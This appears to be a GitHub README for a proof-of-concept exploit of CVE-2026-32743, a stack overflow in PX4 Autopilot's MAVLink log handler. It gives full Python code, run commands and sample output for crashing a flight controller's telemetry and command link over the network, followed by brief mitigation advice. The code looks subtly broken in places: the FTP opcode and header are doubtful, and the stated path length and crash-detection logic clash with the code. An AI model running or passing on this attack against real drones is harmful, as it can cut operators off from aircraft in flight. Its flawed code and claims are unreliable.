

# CVE-2026-32743 - PX4 Autopilot MavlinkLogHandler Stack Buffer Overflow (DoS)

[](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-32743)
[-orange)](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H)
[-blue)](https://cwe.mitre.org/data/definitions/121.html)
[](https://px4.io/)
[](#)
[](LICENSE)
[](https://python.org)

<!-- Author badges -->
[](https://github.com/mbanyamer)
[](https://instagram.com/banyamer_security)
[](https://twitter.com/banyamer_sec)

---

## 📜 Description

**CVE-2026-32743** is a **stack‑based buffer overflow** in the `MavlinkLogHandler` of PX4 Autopilot versions **≤1.17.0-rc2**.  
The `LogEntry.filepath` buffer is only **60 bytes**, but `sscanf()` parses log directory paths **without a width specifier**.  

An attacker with **MAVLink link access** can:

1. Use **MAVLink FTP** to create a deeply nested directory (path length > 60 bytes) inside `/fs/microsd/log/`.
2. Request the log list via `MAV_CMD_REQUEST_LOG_LIST`.
3. The vulnerable `MavlinkLogHandler` copies the long path into the 60‑byte buffer → **stack overflow**.
4. The MAVLink task crashes → **loss of telemetry and command capability** → **persistent Denial of Service** (until reboot).

**Fixed in**: [commit 616b25a](https://github.com/PX4/PX4-Autopilot/commit/616b25a280e229c24d5cf12a03dbf248df89c474) (added width specifier to `sscanf`).

---

## 🔥 Attack Flow Diagram



---

## ⚙️ Prerequisites

- **Target running PX4** ≤ `1.17.0-rc2` with **SD card** mounted (logs stored in `/fs/microsd/log/`).
- **MAVLink FTP enabled** (default on most PX4 builds).
- **Network access** to the flight controller’s MAVLink UDP port (default `14550`).
- **Python 3.6+** with `pymavlink` installed:
  ```bash
  pip install pymavlink
  ```

---

## 🚀 Usage

```bash
git clone https://github.com/mbanyamer/CVE-2026-32743-PoC
cd CVE-2026-32743-PoC
python3 exploit.py <TARGET_IP> [--port <PORT>]
```

| Argument     | Description                          | Default   |
|--------------|--------------------------------------|-----------|
| `target_ip`  | IP address of the flight controller  | *required*|
| `--port`     | MAVLink UDP port                     | `14550`   |

### Example
```bash
python3 exploit.py 192.168.1.10 --port 14550
```

**Expected output** (successful DoS):
```
[*] Connecting to MAVLink target: 192.168.1.10:14550
[+] Heartbeat received from system 1, component 1
[*] Creating long directory: /fs/microsd/log/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA... (length 80 bytes)
[+] Directory created (or already existed).
[*] Requesting log list via MAV_CMD_REQUEST_LOG_LIST...
[*] Waiting for crash (target will stop responding)...
[+] Target unresponsive – DoS achieved!
```

---

## 📄 PoC Code

```python
#!/usr/bin/env python3
# Exploit Title: PX4 Autopilot MavlinkLogHandler Stack Buffer Overflow (DoS)
# CVE: CVE-2026-32743
# Date: 2026-05-08
# Exploit Author: Mohammed Idrees Banyamer
# Author Country: Jordan
# Instagram: @banyamer_security
# Author GitHub: https://github.com/mbanyamer
# Vendor Homepage: https://px4.io/
# Software Link: https://github.com/PX4/PX4-Autopilot
#   Affected: Versions 1.17.0-rc2 and below
# Tested on: PX4 v1.17.0-rc2 (Pixhawk)
# Category: DoS
# Platform: Embedded (PX4 Autopilot)
# Exploit Type: Stack-based Buffer Overflow
# CVSS: 7.5 (High)
# CWE: CWE-121
# Description: Creates an overly long directory via MAVLink FTP, then requests log list.
# Fixed in: https://github.com/PX4/PX4-Autopilot/commit/616b25a
# Usage: python3 exploit.py <target_ip> [--port <port>]

print(r"""
╔════════════════════════════════════════════════════════════════════════════════════════════╗
║                                                                                            ║
║   ██████╗  █████╗ ███╗   ██╗██╗   ██╗ █████╗ ███╗   ███╗███████╗██████╗                     ║
║   ██╔══██╗██╔══██╗████╗  ██║╚██╗ ██╔╝██╔══██╗████╗ ████║██╔════╝██╔══██╗                    ║
║   ██████╔╝███████║██╔██╗ ██║ ╚████╔╝ ███████║██╔████╔██║█████╗  ██████╔╝                    ║
║   ██╔══██╗██╔══██║██║╚██╗██║  ╚██╔╝  ██╔══██║██║╚██╔╝██║██╔══╝  ██╔══██╗                    ║
║   ██████╔╝██║  ██║██║ ╚████║   ██║   ██║  ██║██║ ╚═╝ ██║███████╗██║  ██║                    ║
║   ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═══╝   ╚═╝   ╚═╝  ╚═╝╚═╝     ╚═╝╚══════╝╚═╝  ╚═╝                    ║
║                                                                                            ║
║                         [ b a n y a m e r _ s e c u r i t y ]                              ║
║                                                                                            ║
║                  ▸ Silent Hunter  |  Shadow Presence  |  Digital Intel ◂                  ║
║                                                                                            ║
║   Operator : Mohammed Idrees Banyamer  •  Jordan 🇯🇴                                       ║
║   Handle   : @banyamer_security                                                           ║
║                                                                                            ║
║   Exploit  : CVE-2026-32743                                                               ║
║   Target   : PX4 Autopilot • MAVLink • Log Handler                                         ║
║                                                                                            ║
║   Status   : ACTIVE                                                                       ║
║                                                                                            ║
╚════════════════════════════════════════════════════════════════════════════════════════════╝
""")

import time
import struct
import argparse
from pymavlink import mavutil
from pymavlink.dialects.v20 import common as mavlink2

def send_ftp_command(mav, seq, payload):
    msg = mav.file_transfer_protocol_encode(
        target_system=mav.target_system,
        target_component=mav.target_component,
        payload=payload
    )
    mav.mav.send(msg)

def ftp_create_directory(mav, path):
    O_CREAT = 0x04
    O_DIRECTORY = 0x08
    seq = 1
    path_bytes = path.encode('utf-8') + b'\x00'
    payload = struct.pack('<BBHB', 0, 0, seq, 0) + path_bytes
    send_ftp_command(mav, seq, payload)
    time.sleep(0.5)

def exploit(target_ip, target_port):
    print(f"[*] Connecting to MAVLink target: {target_ip}:{target_port}")
    master = mavutil.mavlink_connection(f"udpout:{target_ip}:{target_port}")
    master.wait_heartbeat()
    print(f"[+] Heartbeat received from system {master.target_system}, component {master.target_component}")

    long_dir_name = "A" * 70
    full_path = f"/fs/microsd/log/{long_dir_name}"
    print(f"[*] Creating long directory: {full_path} (length {len(full_path)} bytes)")

    try:
        ftp_create_directory(master, full_path)
        print("[+] Directory created (or already existed).")
    except Exception as e:
        print(f"[-] FTP directory creation failed: {e}")
        print("    Ensure the target supports MAVLink FTP and the SD card is mounted.")
        return

    print("[*] Requesting log list via MAV_CMD_REQUEST_LOG_LIST...")
    master.mav.command_long_send(
        master.target_system,
        master.target_component,
        mavlink2.MAV_CMD_REQUEST_LOG_LIST,
        0,
        0,
        0, 0, 0, 0, 0, 0
    )

    print("[*] Waiting for crash (target will stop responding)...")
    time.sleep(5)

    try:
        master.mav.heartbeat_send(mavlink2.MAV_TYPE_GCS, mavlink2.MAV_AUTOPILOT_GENERIC)
        print("[-] Target still responsive – vulnerability may be patched or conditions not met.")
    except Exception:
        print("[+] Target unresponsive – DoS achieved!")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2026-32743 PX4 MavlinkLogHandler DoS Exploit")
    parser.add_argument("target_ip", help="IP address of the target flight controller")
    parser.add_argument("--port", type=int, default=14550, help="MAVLink UDP port (default: 14550)")
    args = parser.parse_args()
    exploit(args.target_ip, args.port)
```

---

## 📸 Demonstration

```
$ python3 exploit.py 192.168.1.100
╔════════════════════════════════════════════════════════════════════════════════════════════╗
║                                          [banner]                                          ║
╚════════════════════════════════════════════════════════════════════════════════════════════╝
[*] Connecting to MAVLink target: 192.168.1.100:14550
[+] Heartbeat received from system 1, component 1
[*] Creating long directory: /fs/microsd/log/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA (length 80 bytes)
[+] Directory created (or already existed).
[*] Requesting log list via MAV_CMD_REQUEST_LOG_LIST...
[*] Waiting for crash (target will stop responding)...
[+] Target unresponsive – DoS achieved!
```

---

## 🛡️ Mitigation

- **Upgrade PX4** to a version containing the patch (≥1.17.0-rc3 or any build after commit `616b25a`).
- **Disable MAVLink FTP** if not necessary: set `MAV_0_FTP` to `0` in parameters.
- **Restrict network access** to the MAVLink port (firewall, VPN, or physical link).
- **Monitor logs** for unusual directory creation attempts inside `/fs/microsd/log/`.

---

## 📚 References

- [MITRE CVE‑2026‑32743](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-32743)
- [PX4 Security Advisory GHSA‑97c4‑68r9‑96p5](https://github.com/PX4/PX4-Autopilot/security/advisories/GHSA-97c4-68r9-96p5)
- [Patch Commit](https://github.com/PX4/PX4-Autopilot/commit/616b25a280e229c24d5cf12a03dbf248df89c474)
- [MAVLink Protocol](https://mavlink.io/en/)
- [pymavlink Documentation](https://pymavlink.readthedocs.io/)

---

## 👤 Author

**Mohammed Idrees Banyamer**  
- 🇯🇴 Jordan  
- **Security Researcher** | **Exploit Developer** | **Red Team Operator**  

[](https://github.com/mbanyamer)
[](https://instagram.com/banyamer_security)
[](https://twitter.com/banyamer_sec)
[](https://linkedin.com/in/mbanyamer)

> *"Silent Hunter | Shadow Presence | Digital Intel"*

---

## ⚠️ Disclaimer

This proof of concept (PoC) is intended **solely for educational and defensive purposes**.  
Unauthorized use against systems you do not own or have explicit permission to test is **illegal**.  
The author assumes **no liability** for any misuse or damage caused by this software.

---

## 📜 License

This project is licensed under the **MIT License** – see the [LICENSE](LICENSE) file for details.  
Feel free to use, modify, and distribute with attribution.

---

## ⭐ Star this repo if you found it useful!  
[](https://github.com/mbanyamer/CVE-2026-32743-PoC/stargazers)
